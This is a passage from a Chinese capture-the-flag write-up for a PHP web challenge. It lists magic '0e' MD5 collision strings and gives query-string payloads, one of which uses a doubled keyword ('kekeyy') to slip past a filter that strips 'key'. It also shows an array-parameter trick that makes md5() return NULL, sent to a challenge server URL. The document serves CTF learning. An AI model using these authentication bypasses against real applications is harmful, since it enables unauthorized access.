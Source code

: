 ```

s878926199a
0e545993274517709034328855841020

s1091221200a
0e940624217856561557816327384675 
```

既然知道了如何绕过，那就来构造语句，但是要注意前面将`key`这个关键字给过滤掉了，所以采用`错位`的方法构造payload：

```
?kekeyy1=QNKCDZO&kekeyy2=s214587387a 
```

得出flag
![在这里插入图片描述](img/f7d4d4cde80b9a0c791b85dd2263c30c.png)
除此之外，看了大师傅们的博客，发现绕过MD5的方法还可以利用数组

> md5()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL,也就是相等的。

所以构造payload：

```
http://123.206.87.240:8002/web16/?kekeyy1[]=aa&kekeyy2[]=bb 
```

得出flag
![在这里插入图片描述](img/9069c0c638cdb6e4de6a7f5c6356cd7a.png)

## **成绩单**
